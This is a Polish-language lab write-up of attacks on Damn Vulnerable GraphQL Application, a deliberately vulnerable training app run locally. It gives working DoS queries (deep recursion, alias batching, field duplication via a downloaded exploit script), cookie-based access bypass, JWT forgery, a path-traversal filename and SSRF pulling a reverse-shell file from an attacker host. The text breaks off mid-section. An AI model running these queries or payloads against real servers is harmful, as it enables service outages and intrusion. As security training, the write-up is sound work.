


# Writeup - Damn Vulnerable GraphQL Application

GraphQL to otwartoźródłowy język zapytań oraz środowisko uruchomieniowe po stronie serwera dla API, które pozwala klientom wykonywać zapytania w takiej strukturze, że tylko dane potrzebne na ten moment znajdują się w zapytaniu. Został stworzony przez Facebooka jako alternatywa dla tradycyjnych REST API, aby zaadresować ich ograniczenia, szczególnie w złożonych aplikacjach.

Tak jak każde inne rozwiązanie backendowe, zależnie od implementacji i konfiguracji, może być podatne na różnego typu ataki lub dotknięte słabościami.

Damn Vulnerable GraphQL Application to otwartoźródłowa aplikacja napisana w celach edukacyjnych specjalnie tak, aby zawierała słabości i była podatna na liczne ataki - między innymi:
- wstrzyknięcia (injections)
- wykonanie kodu (code execution)
- złamana kontrola dostępu (broken access control).


# Narzędzia

Poniższe narzędzia zostały użyte do pobrania i uruchomienia DVGA.
- Kali Linux 2024.1
- DVGA 2.1.2 (wraz z wymaganymi bibliotekami do jej uruchomienia, m.in. Python i Flask)
- Docker 26.1.5

Poniższe narzędzia zostały wykorzystane do rekonesansu lub eksploitacji aplikacji.
- Burp Suite Community Edition v2023.12.1.5
- Dirb v2.22


# Instalacja

Aplikacja została uruchomiona jako kontener Dockera na maszynie wirtualnej Kali Linux. 

Kali Linux domyślnie nie ma wbudowanego Dockera - zainstalowano go za pomocą komendy `sudo apt install -y docker.io`, a następnie uruchomiono komendą `sudo systemctl enable docker --now`.

Następnie sklonowano [repozotorium git DVGA](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application) na maszynę wirtualną. W katalogu aplikacji, najpierw komendą `docker build -t dvga .` stworzono build DVGA, a następnie komenda `docker run -d -t -p 5013:5013 -e WEB_HOST=0.0.0.0 --name dvga dvga` uruchomiła kontener lokalnie na porcie 5013: `http://localhost:5013`.


Aplikacja została pomyślnie zainstalowana i uruchomiona, jest gotowa do rekonesansu i eksploitacji. 


# Rekonesans 

DVGA ma prosty frontend składający się z:
- Home (strona domowa),
- Private Pastes (prywatne wklejki)
- Public Pastes (publiczne wklejki)
- Create Paste (stworzenie wklejki)
- Import Paste (z adresu URL)
- Upload Paste (z pliku)
- pomocniczne podstrony z logami oraz możliwością zresetowania aplikacji
- opcji wyboru trudności eksploitacji - Beginner lub Expert.

Pastes (wklejki), to wpisy tekstowe (przypominające w działaniu portal Pastebin), które może dodać użytkownik. Aplikacja dzieli je na prywatne (dostępne tylko dla danego użytkownika) oraz publiczne. Strona umożliwiająca dodanie nowej wklejki pozwala na dodanie tytułu, treści, widoczności, a także jest opcja usuwająca wklejkę po jej przeczytaniu. W aplikacji domyślnie jest stworzonych kilka takich wklejek.

W ramach rekonesansu wstępnego nie będzie poddawany analizie kod źródłowy aplikacji, mimo że jest on otwartoźródłowy. Celem projektu jest znalezienie jak najwięcej podatności, uznając że nie mamy dostępu do kodu, a tylko zachowania aplikacji z poziomu przeglądarki. Z góry jednak można podejrzewać, że któraś z podatności będzie umożliwiała wyświetlenie kodu źródłowego.

Uruchomiono nowy projekt Burp Suite oraz wbudowaną w narzędzie przeglądarkę, a następnie otworzono w niej aplikację DVGA pod adresem `http://localhost:5013` w celu przejęcia zapytań przeglądarki i odpowiedzi serwera. Przejęto następującą odpowiedź HTTP:


Uwagę przykuł response header Set-Cookie, który powoduje zapisanie nowego ciasteczka w przeglądarce. Ustawia on wartość ciasteczka o nazwie `graphiql` na `disable`.

Przejście na stronę `Private Pastes` lub `Public Pastes` umożliwia przechwycenie adresu endpointu: `http://localhost:5013/graphql`.



Przejście do zakładki endpointu w Burp Suite umożliwiło podejrzenie struktury zapytania do endpointu oraz jego odpowiedź.


Zapytanie do endpointu `graphql`, które pozwoliło na uzyskanie prywatnych wklejek:
```
query getPastes {
    pastes(public:false) {
        id
        title
        content
        ipAddr
        userAgent
        owner {
            name
        }
    }
}
```

Zapytanie działa prawidłowo, otrzymano w odpowiedzi tylko prywatne, dodane domyślnie wklejki domyślnego użytkownika DVGAUser. Uwagę zwracają wartości `id` wklejek, które wydają się być inkrementowane, a nie losowe. Zapytanie dla publicznych wklejek generuje analogiczny rezultat. Aby to potwierdzić, utworzono nową wklejkę za pomocą frontendu.

Przechwycone zapytanie:
```
mutation CreatePaste ($title: String!, $content: String!, $public: Boolean!, $burn: Boolean!) {
    createPaste(title:$title, content:$content, public:$public, burn: $burn) {
        paste {
            id
            content
            title
            burn
        }
    }
}
```

Zmienne:
```
{
    "title":"BAWWW",
    "content":"Test 1",
    "public":false,
    "burn":false
}
```

Odpowiedź:
```
{
    "data":{
        "createPaste":{
            "paste":{
                "id":"13",
                "content":"Test 1",
                "title":"BAWWW",
                "burn":false
            }
        }
    }
}
```

Poznano już strukturę głównych zapytań do endpointu. Nawet do wyświetlania danych używana jest metoda POST. W celu stworzenia nowych wpisów, używane jest zapytanie `mutation`.


# Rekonesans - enumeracja API

W celu wykonania enumeracji endpointów API, potrzebna będzie lista `graphql.txt` ze zbioru [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/graphql.txt) a także program do wykonania ataku brute-force: wbudowany w Kali Linux `dirb`.
Komenda:

`dirb http://localhost:5013/ /usr/share/seclists/Discovery/Web-Content/graphql.txt`

Program zwrócił dwa wyniki:
```
---- Scanning URL: http://localhost:5013/ ----
+ http://localhost:5013/graphiql (CODE:400|SIZE:53)                                                                                                                                               
+ http://localhost:5013/graphql (CODE:400|SIZE:53)    
```

Wejście na adres `http://localhost:5013/graphiql` powoduje wyświetlenie konsoli GraphiQL, ale domyślnie nie jest możliwe jej używanie, ze względu na brak uprawnień.


# Eksploitacja - beginner

Ten rozdział jest poświęcony wszelkim odkrytym metodom eksploitacji aplikacji na domyślnym poziomie trudności.

## Broken Access Control i konsola GraphiQL

W ramach rekonesansu, odkryte zostało ciasteczko `graphiql`, którego wartość domyślnie to `disable`. Ciasteczko jest przechowywane lokalnie - można zmodyfikować jego wartość na `enable`. Po takiej modyfikacji otrzymano dostęp do konsoli. Jest to bardzo poważna luka w bezpieczeństwie - informacja o uprawnieniach danego użytkownika nigdy nie powinna być przechowywana po stronie klienta, w tym w formie ciasteczka, które można zmodyfikować z poziomu przeglądarki.


Konsola umożliwia przejrzenie `root types`. Oznacza to, że jest możliwy wgląd do całej struktury API - możliwych zapytań, mutacji, oczekiwanych argumentów.

Podobny, ale granularny efekt można uzyskać używając następującego zapytania, które zwraca nazwy wszystkich typów w strukturze.
```
{
  __schema {
    types {
      name
    }
  }
}
```


Za pomocą konsoli możliwe jest uzyskanie danych, które domyślnie nie są pokazywane na frontendzie. Co więcej, możliwe jest nie tylko uzyskanie wszystkich danych, ale także ich edycja (w tym usunięcie). Na przykład, można uzyskać `id` użytkownika, który dodał wklejkę.
Zapytanie:
```
query {
  pastes(public:true) {
    owner {
      id
      name
      pastes {
        id
      }
    }
  }
}
```


Zapytanie zwraca `id` autora każdej publicznej wklejki.

Wysłano także zapytanie o dane użytkowników, w tym ich nazwy użytkowników i hasła.


Znaleziono dwa konta użytkowników: `admin` oraz `operator`. Ich hasła z nieznanych przyczyn są w postaci sześciu gwiazdek. Na frontendzie nie ma żadnego formularza umożliwiającego logowanie, więc na ten moment te dane nie są zbytnio użyteczne.

Poza zapytaniami, dostępne są także mutacje. Umożliwiają one dodanie, modyfikację i usunięcie dowolnej wklejki - nawet prywatnej.


Pierwszy zrzut przedstawia mutację usuwająca, a drugi udowadnia, że wklejka została usunięta.

Wykonano zapytanie napisane specjalnie z błędem, aby sprawdzić, jak konsola reaguje na nieprawidłowe (niezamierzone) błędy.
```
query {
    pastes {
        BAWWW
    }
}
```



Aplikacja niepoprawnie przetwarza błędy - konsola zwraca pełny stack trace, co powoduje wyciek fragmentów kodu, zainstalowanych bibliotek i ich wersji.

## Stored XSS oraz HTML injection

Celem poniższej sekwencji działań jest przeprowadzenie ataku typu Stored Cross-Site Scripting (XSS) w aplikacji DVGA (Damn Vulnerable GraphQL Application). Atak bazuje na braku filtracji danych wejściowych przesyłanych za pośrednictwem formularza „Create a Paste”, co umożliwia trwałe zapisanie złośliwego kodu JavaScript w bazie danych i jego późniejsze wykonanie w przeglądarkach innych użytkowników.

Użytkownik przechodzi do funkcjonalności „Create a Paste” dostępnej z poziomu panelu bocznego aplikacji. Formularz ten zawiera pola tekstowe: Title, Visibility, Your message oraz opcjonalny checkbox Burn After Read. Elementy te służą do wprowadzenia treści, która zostanie publicznie udostępniona.

Cel: zidentyfikowanie potencjalnego punktu wejścia dla ładunku XSS (ang. attack vector).


Dla celów rekonesansu formularz zostaje wypełniony przykładowymi danymi:

•	Title: Test Paste
•	Visibility: Public
•	Your message: Hello there!

Po kliknięciu „Submit”, dane są przesyłane do backendu, co pozwala przeanalizować ich dalsze przetwarzanie przez aplikację.
Za pomocą narzędzia deweloperskiego przeglądarki (zakładka Network) analizujemy zapytanie typu POST, które kierowane jest do endpointu /graphql. Znajdujemy mutację GraphQL CreatePaste, gdzie nasze dane są mapowane do zmiennych $title, $content, $public, $burn.


Przechodzimy do sekcji Public Pastes, gdzie odnajdujemy utworzony wpis. Aplikacja renderuje zawartość pola content jako część dokumentu HTML, bez uprzedniego kodowania znaków czy sanitizacji.


Formularz zostaje ponownie wypełniony, tym razem z ładunkiem XSS jako treścią wiadomości:

``

•	Title: XSS
•	Visibility: Public
•	Your message: powyższy payload

Złośliwy kod wykorzystuje zdarzenie onerror na nieistniejącym obrazie, co powoduje wywołanie funkcji alert(1) w przeglądarce.


W narzędziu developerskim ponownie analizujemy odpowiedź serwera. W strukturze JSON potwierdzającej zapis widzimy, że wartość pola content zawiera nasz payload w niezmienionej formie, a serwer nie podjął żadnej próby jego neutralizacji.


To oznacza, że backend nie stosuje mechanizmów zabezpieczających typu:

•	filtrowanie tagów HTML,
•	kodowanie znaków (np. &lt;, &gt;),
•	Content Security Policy (CSP).

Po przejściu na stronę Public Pastes, przeglądarka natychmiast renderuje zawartość wpisu, a skrypt osadzony w tagu  zostaje wykonany. Pojawia się okno alert(1), co potwierdza skuteczne uruchomienie XSS.


Przeprowadzony atak pokazuje, jak poważne konsekwencje może mieć brak podstawowych mechanizmów zabezpieczających przy przetwarzaniu danych wejściowych w aplikacjach webowych. Dzięki analizie formularza „Create a Paste” w Damn Vulnerable GraphQL Application (DVGA) zidentyfikowano lukę typu Stored Cross-Site Scripting (XSS), która umożliwia trwałe zapisanie i późniejsze wykonanie złośliwego kodu JavaScript w przeglądarce każdego użytkownika odwiedzającego stronę.

Atak potwierdza, że nawet proste formularze użytkownika mogą stanowić wektor poważnych zagrożeń, jeśli nie zostaną odpowiednio zabezpieczone. Brak filtrowania danych wejściowych, kodowania outputu i zabezpieczeń typu Content Security Policy (CSP) pozwala na przeprowadzenie skutecznych ataków XSS, które mogą prowadzić m.in. do:

•	kradzieży danych sesyjnych,
•	przejęcia kont,
•	wykonywania działań w imieniu ofiary (session riding),
•	bądź infekowania przeglądarek złośliwym kodem.

Zrealizowana demonstracja stanowi ważne ostrzeżenie i jednocześnie edukacyjny przykład dla programistów, testerów i specjalistów ds. bezpieczeństwa, jak istotne jest wdrażanie zasad bezpieczeństwa już na poziomie najprostszych funkcjonalności aplikacji.

# Wstęp - Ataki typ DoS. 
GraphQL, będąc nowoczesnym i dynamicznym interfejsem komunikacyjnym, zyskał na popularności dzięki możliwościom precyzyjnego definiowania żądań oraz ograniczenia przesyłu zbędnych danych. Jednak ta elastyczność w projektowaniu zapytań otwiera również drzwi do nadużyć, w tym ataków typu Denial of Service (DoS).

W przeciwieństwie do klasycznych API REST, GraphQL umożliwia użytkownikowi dokładne kontrolowanie struktury i złożoności zapytań. Brak odpowiednich zabezpieczeń może prowadzić do nadmiernego obciążenia serwera – zarówno przez głęboką rekursję zapytań, duplikację pól, nadużycie aliasów, jak i wielokrotne wywoływanie kosztownych operacji mutujących. Efektem takich działań może być znaczące spowolnienie odpowiedzi serwera, zwiększone zużycie zasobów, a w skrajnych przypadkach – jego czasowa niedostępność.

#  SystemUpdate:

#  Opis ataku 

Jednym z prostszych, lecz skutecznych sposobów przeciążenia serwera GraphQL jest wykonanie wielu operacji `query` w ramach jednego zapytania. W tym eksperymencie wykorzystano podatność funkcji 'systemUpdate', która może odpowiadać za rzeczywistą modyfikację stanu systemu po stronie serwera – np. zapis do bazy danych, operację I/O lub aktualizację konfiguracji.

Atak polegał na wielokrotnym wywołaniu tej samej operacji (systemUpdate) w jednym żądaniu GraphQL, wykorzystując mechanizm aliasów lub batching. Wariant bazujący na aliasach pozwala na wykonywanie wielu kosztownych funkcji w jednym "formalnie poprawnym" zapytaniu:

```graphql
query {
  q1: systemUpdate
  q2: systemUpdate
  q3: systemUpdate
}
```

Z kolei wariant z batchingiem, bardziej niskopoziomowy i stosowany poza Playgroundem (np. przez curl lub requests), polega na wysłaniu tablicy zapytań:

```
data = [
  {"query": "query {\n systemUpdate \n}", "variables": []},
  {"query": "query {\n systemUpdate \n}", "variables": []},
  {"query": "query {\n systemUpdate \n}", "variables": []}
]
```

Takie żądanie powoduje, że serwer GraphQL przetwarza każde zapytanie sekwencyjnie, zużywając zasoby systemowe i wydłużając czas przetwarzania.

Batching zwiększa skuteczność ataków DoS, brute-force i enumeration, ponieważ umożliwia ich przeprowadzenie w jednej transakcji sieciowej. Zamiast 100 zapytań HTTP – wysyłane jest jedno, zawierające 100 operacji, co czyni atak mniej widocznym, a jednocześnie bardziej wydajnym z punktu widzenia atakującego.

# Wykonanie

W ramach eksperymentu przeprowadzono atak typu Denial of Service z wykorzystaniem mechanizmu aliasów w zapytaniu typu query.

Zostało ono wysłane za pomocą wbudowanego w aplikację interfejsu GraphiQL (dostępnego pod adresem `http://localhost:5013/graphiql`). W momencie wykonania żądania zauważono istotne opóźnienie w odpowiedzi ze strony serwera – wskazujące na zwiększone zużycie zasobów systemowych.


# Deep recursion query 

#  Opis ataku 

To klasyczny atak DoS w GraphQL, w którym wykorzystuje się rekursywne struktury danych (np. typy zagnieżdżone w samych sobie), by wymusić na serwerze głębokie rozwinięcie zapytania i w ten sposób wyczerpać jego zasoby.

W tym wariancie ataku DoS wykorzystano fakt, że GraphQL pozwala na definiowanie zagnieżdżonych relacji pomiędzy obiektami. Jednym z popularnych wzorców jest struktura rekursywna, w której obiekt zawiera pole odwołujące się do tego samego typu – np. użytkownik (User) posiadający managera, który również jest obiektem typu User.

Z punktu widzenia wydajności serwera, takie zapytania mogą prowadzić do znacznego obciążenia, ponieważ każde kolejne zagnieżdżenie wymusza dodatkowe operacje przetwarzania, serializacji i zwracania danych. W środowisku DVGA przygotowano zapytanie rekurencyjne, które wykonuje 10 poziomów zagnieżdżenia pola manager

```
query {
  pastes {
    owner {
      pastes {
        owner {
          pastes {
            owner {
              pastes {
                owner {
                  pastes {
                    owner {
                      pastes {
                        owner {
                          pastes {
                              owner {
                                  pastes {
                                      owner {
                                          name
                                      }
                                  }
                              }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}

```
Wersja tego samego ataku może zostać wykonana przy pomocy narzędzia CLI curl, umożliwiającego wysłanie zapytania w formacie JSON do endpointu /graphql. Taka forma nie tylko umożliwia pełną automatyzację, ale również pozwala na wykonanie testów w środowisku z ograniczonym dostępem do GUI lub w ramach kampanii fuzzingowej.

```
curl --location --request GET 'http://localhost:5013/graphql' \
--header 'Content-Type: application/json' \
--data '{"query":"query {\n  pastes {\n    owner {\n      pastes {\n        owner {\n          pastes {\n            owner {\n              pastes {\n                owner {\n                  pastes {\n                    owner {\n                      pastes {\n                        owner {\n                          pastes {\n                              owner {\n                                  pastes {\n                                      owner {\n                                          name\n                                      }\n                                  }\n                              }\n                          }\n                        }\n                      }\n                    }\n                  }\n                }\n              }\n            }\n          }\n        }\n      }\n    }\n  }\n}\n","variables":{}}'

```

Wysłanie zapytania z poziomu interfejsu GraphiQL skutkowało zauważalnym spowolnieniem odpowiedzi serwera.

#  Wykonanie 

Zarówno przy użyciu narzędzia curl, jak i interfejsu GraphiQL, zapytanie z 10 poziomami rekursji zostało poprawnie przetworzone przez serwer DVGA. Odpowiedź zawierała wielowarstwową strukturę JSON, w której pola owner i pastes były przetwarzane i zwracane wielokrotnie – w sumie ponad 100 podstruktur.

Widoczne opóźnienie w generowaniu odpowiedzi oraz rozmiar zwróconego dokumentu JSON świadczą o znacznym obciążeniu serwera. W zależności od środowiska i liczby jednoczesnych użytkowników, taki typ zapytania może prowadzić do:

- degradacji wydajności,

- nadmiernego zużycia zasobów pamięci RAM i CPU,

- całkowitej niedostępności usługi.


# Field duplication attack

# Opis ataku 

Powodowanie nadmiernego obciążenia serwera poprzez wielokrotne zapytanie o dokładnie to samo pole w ramach jednej operacji. Chociaż duplikaty są zbędne z perspektywy użytkownika, serwer GraphQL domyślnie przetwarza każde z nich osobno – co może prowadzić do ataku typu low-cost DoS.

GraphQL w swojej specyfikacji dopuszcza wielokrotne odwołania do tego samego pola w ramach jednego zapytania. Chociaż wiele implementacji normalizuje wynik odpowiedzi, przetwarzanie po stronie serwera może nadal odbywać się osobno dla każdego wystąpienia tego pola. Brak walidacji duplikatów w schemacie lub brak optymalizacji po stronie backendu może prowadzić do nadmiernego zużycia zasobów – w tym CPU oraz liczby zapytań do bazy danych.

```
query {
  pastes {
    owner {
      pastes {
            ipAddr # 1
            ipAddr # 2
            ipAddr # 3
            ipAddr # 4
            ...
            ipAddr # 1000
          }
        }
      }
}

```

#Wykonanie

W celu automatyzacji ataku typu Field Duplication oraz osiągnięcia faktycznego wpływu na wydajność aplikacji DVGA, wykorzystano ogólnodostępny exploit opublikowany przez Dolevf.

Skrypt ten umożliwia dynamiczne generowanie zapytania GraphQL zawierającego dużą liczbę powtórzeń tego samego pola, a następnie jego wysłanie do serwera w wielu wątkach.

```
wget https://raw.githubusercontent.com/dolevf/Black-Hat-GraphQL/master/ch05/exploit_threaded_field_dup.py

python3 exploit_threaded_field_dup.py http://localhost:5013/graphql

python3 exploit_threaded_field_dup.py http://localhost:5013/graphql --depth 1000 --threads 20

```

Po uruchomieniu exploita i rozpoczęciu przesyłania równoległych zapytań zawierających setki powtórzeń pola ipAddr, zauważono drastyczny wzrost czasu odpowiedzi serwera DVGA. W wielu przypadkach zapytania kończyły się błędami 504 Gateway Timeout lub 500 Internal Server Error.

Skrypt w konfiguracji --depth 1000 --threads 20 wygenerował zapytanie z tysiącem powtórzeń tego samego pola i rozesłał je równolegle w 20 wątkach, powodując maksymalne obciążenie aplikacji.

Atak typu Field Duplication, gdy zostanie zautomatyzowany, staje się niezwykle efektywnym narzędziem DoS – zwłaszcza w połączeniu z równoległym przetwarzaniem i dużą liczbą instancji. Jego skuteczność wynika z faktu, że wiele implementacji GraphQL nie stosuje deduplikacji zapytań na poziomie AST lub parsera.


W trakcie działania skryptu exploit_threaded_field_dup.py, DVGA przestała odpowiadać na nowe połączenia HTTP. W terminalu pojawiły się wielokrotne wyjątki typu:

```
urllib3.exceptions.NewConnectionError:
Failed to establish a new connection: [Errno 16] Device or resource busy

urllib3.exceptions.MaxRetryError:
Max retries exceeded with url: /graphql
```

łędy te są typowym objawem przeciążenia aplikacji serwerowej. Skrypt próbował nawiązać nowe połączenia do endpointu /graphql, jednak serwer odmawiał ich obsługi z powodu wyczerpania zasobów (pamięć, wątki, sockety). Jest to jednoznaczne potwierdzenie, że atak typu Field Duplication DoS zakończył się sukcesem i doprowadził do czasowej niedostępności aplikacji.

# Circular Fragment

# Opis ataku 

Atak typu Circular Fragment w GraphQL polega na stworzeniu zapytania zawierającego fragmenty (fragment), które cyklicznie odwołują się do siebie nawzajem. Choć konstrukcja taka jest składniowo poprawna, to parser GraphQL musi rekurencyjnie rozwinąć strukturę zapytania, co w niektórych implementacjach prowadzi do:

- nadmiernego zużycia zasobów (CPU, pamięci),
- błędów typu StackOverflow,
- całkowitego zawieszenia lub zatrzymania aplikacji (atak DoS).

Zgodnie ze specyfikacją GraphQL, takie zapytania powinny być odrzucane podczas walidacji. Niestety, wiele implementacji (w tym DVGA) nie przestrzega tego wymogu, co czyni je podatnymi na ten typ nadużycia.

# Wykonanie

W ramach eksperymentu zdefiniowano dwa fragmenty, A i B, działające na typie PasteObject. Każdy z nich zawierał odniesienie do drugiego, tworząc pętlę logiczną. Zapytanie wyglądało następująco:

```
query {
  ...A
}

fragment A on PasteObject {
  content
  title
  ...B
}

fragment B on PasteObject {
  content
  title
  ...A
}
```
Zapytanie zostało wysłane do endpointu /graphql za pomocą interfejsu GraphiQL. Pomimo oczywistej pętli, DVGA zaakceptowała zapytanie i rozpoczęła jego przetwarzanie.


Po wysłaniu zapytania zawierającego cykliczne fragmenty A i B, aplikacja DVGA próbowała przetworzyć zapytanie, co doprowadziło do utraty odpowiedzi z endpointu /graphql. Interfejs GraphiQL zgłosił błąd TypeError: NetworkError when attempting to fetch resource, co potwierdza, że aplikacja backendowa nie była w stanie odpowiedzieć na żądanie. Jest to bezpośredni dowód skutecznego ataku typu Denial of Service z wykorzystaniem Circular Fragment.

# Wstęp - GraphQL JWT Token Forge
JWT to popularny mechanizm uwierzytelniania, w którym po zalogowaniu użytkownik otrzymuje token podpisany przez serwer. Token zawiera dane (payload), np. user_id, role, email, a jego autentyczność jest weryfikowana za pomocą podpisu HMAC lub RSA.

Atak polega na sfałszowaniu tokenu JWT w taki sposób, by:

- Użytkownik uzyskał wyższe uprawnienia (np. admin),
- Serwer zaakceptował sfałszowany token jako ważny.

# Opis Ataku 

JWT (JSON Web Token) to popularny format używany do uwierzytelniania użytkowników w aplikacjach webowych. Token zawiera nagłówek, ładunek (payload) oraz podpis kryptograficzny. Podczas ataku typu JWT Token Forge, celem napastnika jest ręczne sfałszowanie tokenu, tak aby przyjął on tożsamość użytkownika o wyższych uprawnieniach (np. admin), a serwer nie zweryfikował jego podpisu.

Ten atak staje się możliwy, jeśli backend:

- nie sprawdza podpisu tokenu,
- akceptuje token mimo jego manipulacji,
- lub używa błędnie skonfigurowanej biblioteki JWT.

# Etapy wykonania ataku w DVGA

# Rejestracja nowego użytkownika

Przy użyciu operacji GraphQL createUser, tworzony jest nowy użytkownik edward:


# Logowanie i uzyskanie tokenu JWT

Użytkownik edward loguje się do systemu, otrzymując parę tokenów:


# Analiza tokenu

Token JWT zostaje wklejony do narzędzia jwt.io, gdzie dekodowany jest jego payload:


# Fałszowanie tokenu

Zmieniamy wartość identity na admin, zachowując algorytm HS256. Następnie ignoruje podpis (signature) – pozostawiając go pustym lub nieprawidłowym:


# Wysłanie sfałszowanego tokenu

Fałszywy token zostaje przesłany jako argument do zapytania me.


# Wstęp - Information Disclosure – GraphQL Field Suggestions, Additional information from stack

GraphQL to nowoczesny interfejs API umożliwiający klientowi precyzyjne definiowanie żądań danych. Jego elastyczność bywa jednak źródłem luk bezpieczeństwa – w tym przypadku ujawnienia informacji o dostępnych polach i metodach.

# Opis Ataku 

W trakcie testów zauważono, iż podanie nieistniejącej nazwy pola w zapytaniu GraphQL skutkuje wygenerowaniem komunikatu zawierającego podpowiedzi wskazujące poprawne, istniejące metody lub pola

To zachowanie stanowi lukę typu Information Disclosure, gdyż:

-Umożliwia uzyskanie listy dostępnych operacji i struktur danych bez autoryzacji <br>
-Może ujawnić funkcje o wysokim ryzyku, np. deleteAllPastes, systemDiagnostics <br>
-Pozwala atakującemu na szybkie mapowanie GraphQL schema (tzw. schema harvesting), co ułatwia przygotowanie dalszych ataków, np. unauthorized access, mass assignment lub GraphQL injections.

# Etapy wykonania ataku 

W pierwszej kolejności zmieniono żądanie wykorzystując informację zebrane podczas rekonesansu mówiące o tym iż zmiana wartości ciasteczka Set-Cookie z disabled na enabled pozwala na dostęo do konsoli GraphQL


po czym zaczęto testować zachowanie systemu przy podawaniu błędnej składmi


Jak widać na drugim screenshocie podanie błędnej składni sprawiło iż aplikacja wyrzuciła stack zawierający informację o środowisku uruchomieniowym w postaci m.in wersji pythona, frameworka Flask itp.

# Wstęp - Path Traversal + Arbitrary File Write – Upload via GraphQL Mutation

W aplikacjach webowych możliwość przesyłania plików przez użytkownika wiąże się z ryzykiem nadużycia, szczególnie gdy brak jest walidacji ścieżki zapisu. 
W tym przypadku aplikacja DVGA umożliwiała przesyłanie danych przez mutację GraphQL, przy czym użytkownik miał możliwość pełnej kontroli nad nazwą pliku i jego lokalizacją na serwerze.

# Opis Ataku 

Podatność umożliwiła zapis pliku w arbitralnym miejscu systemu plików, co może prowadzić do:

-nadpisania plików systemowych lub konfiguracyjnych <br>
-przygotowania payloadów do dalszej eskalacji (np. RCE), <br>
-trwałego przechowywania danych przez atakującego.

Atak wykorzystuje Path Traversal (../../) w polu filename mutacji GraphQL uploadPaste, które nie jest filtrowane po stronie serwera.

# Etapy wykonania ataku 

# Standardowy przesył pliku

W pierwszej kolejności wykorzystano przesył pliku o nazwie plik.txt przez standardowy formularz "Upload a Paste" w celu uzyskania struktury mutacji


# Modyfikacja za pomocą burp suite

Następnie zmodyfikowano zawartość żądania wykorzystując komponent Intercept tak ażeby plik został przesłany pod ścieżkę systemową /tmp.
Osiągnięto to zmieniając zawartość filename z "plik.txt" na "../../../tmp/plik.txt"


# Walidacja zapisu pliku na serwerze


Jako ostatni krok zwalidowano poprzez docker exec uzyskując dostęp do systemu plików kontenera czy plik został zapisany w lokacji systemowej co świadczy o udanym wykorzystaniu tejże podatności 


# Wstęp - Server-Side Request Forgery (SSRF) 

# Server-Side Request Forgery (SSRF)

Server-Side Request Forgery (SSRF) to podatność, która występuje wtedy, gdy aplikacja umożliwia użytkownikowi wymuszenie, by serwer backendowy wykonał żądanie HTTP (lub innego protokołu) pod wskazany przez atakującego adres. W przypadku DVGA, podatna funkcja to GraphQL mutation importPaste, która importuje dane z zewnętrznego źródła HTTP.

# Opis Ataku 

Funkcja importPaste przyjmuje parametry host, port, path oraz scheme, które są bezpośrednio wykorzystywane do skonstruowania adresu URL. Brak jakiejkolwiek walidacji powoduje, że użytkownik może wskazać:

-dowolny adres IP (np. własny serwer Kali) <br>
-dowolny port (np. 80, 22, 443, 6379) <br>
-ścieżkę do pliku lub usługi (np. /shell.sh, /admin) <br>

a także protokół (http, file, gopher, ftp – jeśli dozwolone).

Dzięki temu możliwe jest wykonanie żądania przez serwer do zdalnego lub lokalnego zasobu.

# Etapy wykonania ataku 

# Przygotowanie serwera po stronie atakującego (Kali)

W pierwszej kolejności przygotowano prosty serwer HTTP działający na systemie atakującego hostujący plik z reverse shellem a następnie wykorzystano funkcję import paste w celu uzyskania struktury mutacji


# 2.2 Modyfikacja za pomocą burp suite

Następnie zmodyfikowano zawartość żądania wykorzystując komponent Intercept tak ażeby plik z maszyny atakującego znajdującej się pod adresem 10.0.2.9 został pobrany z wykorzystaniem protokołu HTTP. Skuteczność pobrania pliku widać w logach


# Wstęp – OS Command Injection, SQL Injection, Log Injection via GraphQL

W aplikacji DVGA zidentyfikowano zestaw podatności wynikających z nieprawidłowego przetwarzania danych wejściowych przekazywanych w zapytaniach GraphQL. Mechanizmy odpowiedzialne za operacje pobierania zewnętrznych zasobów, 
